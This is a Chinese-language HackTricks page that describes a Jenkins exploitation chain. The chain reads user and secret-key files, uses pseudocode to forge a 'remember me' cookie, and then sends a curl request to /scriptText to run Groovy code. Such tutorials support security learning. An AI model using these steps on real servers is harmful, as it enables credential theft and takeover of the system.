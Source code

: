 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在这篇博客文章中，可以找到将 Jenkins 中的本地文件包含漏洞转化为 RCE 的绝佳方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个 AI 创建的摘要，内容涉及如何利用任意 cookie 来获取 RCE，直到我有时间自己创建摘要为止：

### 攻击前提

* **功能要求：** 必须启用“记住我”（默认设置）。
* **访问级别：** 攻击者需要整体/读取权限。
* **秘密访问：** 能够读取关键文件的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

* 访问每个用户的用户配置和秘密，从 `$JENKINS_HOME/users/*.xml` 收集：
* **用户名**
* **用户种子**
* **时间戳**
* **密码哈希**

**密钥提取**

* 提取用于签署 cookie 的加密密钥：
* **秘密密钥：** `$JENKINS_HOME/secret.key`
* **主密钥：** `$JENKINS_HOME/secrets/master.key`
* **MAC 密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie 伪造

**令牌准备**

*   **计算令牌过期时间：**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 当前时间加一小时
```
{% endcode %}
*   **连接令牌数据：**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 密钥解密**

*   **解密 MAC 密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为 AES128 密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密 .mac 文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

*   **计算 HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey)  // 使用令牌和 MAC 密钥计算 HMAC
tokenSignature = bytesToHexString(mac)  // 将 MAC 转换为十六进制字符串
```

**Cookie 编码**

*   **生成最终 Cookie：**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 编码 cookie 数据
```
{% endcode %}

#### 第三步：代码执行

**会话认证**

* **获取 CSRF 和会话令牌：**
* 请求 `/crumbIssuer/api/json` 以获取 `Jenkins-Crumb`。
* 从响应中捕获 `JSESSIONID`，该 ID 将与记住我 cookie 一起使用。

**命令执行请求**

*   **发送带有 Groovy 脚本的 POST 请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 脚本可用于在 Jenkins 环境中执行系统级命令或其他操作。

提供的示例 curl 命令演示了如何使用必要的头和 cookie 向 Jenkins 发出请求，以安全地执行任意代码。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
